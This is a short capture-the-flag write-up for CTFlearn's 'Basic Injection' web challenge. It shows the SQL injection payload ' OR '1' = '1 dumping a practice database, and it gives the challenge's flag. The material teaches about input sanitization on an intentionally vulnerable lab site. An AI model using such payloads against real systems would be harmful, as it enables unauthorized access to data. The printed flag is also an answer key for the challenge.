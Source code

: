 ## Basic Injection
The main idea finding the flag using basic SQL Injections to insecure web page.

#### Step-1:
After we go to the given URL https://web.ctflearn.com/web4/, we are asked to submit something.

#### Step-2:
Inspect Element the blank and try to check the code.

We find a line there.

`<!-- Try some names like Hiroki, Noah, Luke -->`

#### Step-3:
When you try all of them, none of them give the flag. So try basic SQL payloads the existing database.

I tried `' OR '1' = '1`

I got the following output.
```
Name: Luke  
Data: I made this problem.  
Name: Alec  
Data: Steam boys.  
Name: Jalen  
Data: Pump that iron fool.  
Name: Eric  
Data: I make cars.  
Name: Sam  
Data: Thinks he knows SQL.  
Name: fl4g__giv3r  
Data: th4t_is_why_you_n33d_to_sanitiz3_inputs  
Name: snoutpop  
Data: jowls  
Name: Chunbucket  
Data: @datboiiii
```

#### Step-4:

Finally the flag becomes:
`th4t_is_why_you_n33d_to_sanitiz3_inputs`